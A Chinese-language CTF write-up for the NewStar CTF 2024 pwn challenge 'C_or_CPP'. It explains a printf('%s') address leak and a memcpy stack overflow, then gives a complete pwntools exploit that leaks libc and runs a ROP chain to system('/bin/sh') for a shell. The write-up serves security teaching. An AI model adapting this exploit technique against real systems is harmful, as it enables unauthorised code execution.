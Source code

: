 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# C_or_CPP

![运行程序](/assets/images/wp/2024/week5/c_or_cpp_1.png)

首先拖入 IDA 分析，这是一个用 C 和 CPP 来实现相同操作对比的程序

题目存在两个漏洞

一个是位于功能 2 里面的

```cpp
  printf("C String input: ");
  read(0, buf, 0x50uLL);
  v4 = std::operator<<<std::char_traits<char>>(&std::cout, "C++ String: ");
  v5 = std::operator<<<char>(v4, v13);
  std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
  printf("C String: %s\n", buf);
```

一个是位于功能 5 里面的

```cpp
  std::operator>><char>(&std::cin, v4);
  v2 = (const void *)std::string::c_str(v4);
  memcpy(dest, v2, 0x100uLL);
```

第一个漏洞首先 read 了 `0x50` 个字符，乍一看可能没有发现溢出，但结合上后面的 `printf("%s")`，即可实现泄露地址

<Container type='tip'>

`printf("%s")` 会一直输出直到遇到 `\x00`
</Container>

第二个漏洞先使用 `cin` 输入了字符串，再将它 memcpy 到 `dest` 字符串中，而 `dest` 是存放在栈上的，因此存在栈溢出

因为程序是使用 `g++` 编译的，相对可用的 gadget 会相当少，所以靠第一次泄露的地址，用 libc 的 gadget 来实现 ROP

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

k = 0
if k:
    addr = '127.0.0.1:9999'
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./C_or_CPP')
elf = ELF('./C_or_CPP')
libc = ELF('./libc.so.6')

def debug():
    gdb.attach(p, 'b *0x402F8F\nb *0x402A22\nc\n')

# debug()
sla(b'Please choose an option:', b'2')
sla(b'C++ String input:', b'inkey')
sa(b'C String input:', b'a' * 0x50)
ru(b'a' * 0x50)
libc_base = uu64(r(6)) - 0x4B1040
# libc_base = uu64(r(6)) - 0x4BB040
print(f"libc_base --> 0x{libc_base :x}")

rdi = libc_base + 0x000000000002A3E5  #: pop rdi; ret;
rsi = libc_base + 0x000000000016333A  #: pop rsi; ret;
rdx_rbx = libc_base + 0x00000000000904A9  #: pop rdx; pop rbx; ret;
bin_sh = libc_base + 0x001D8678
system = libc_base + libc.sym.system
# pause()

sla(b'Please choose an option:', b'5')
payload = b'a' * 0x48 + flat([rdi, bin_sh, rsi, 0, rdx_rbx, 0, 0, system])
sla(b'Try to say something:', payload)

p.interactive()
```
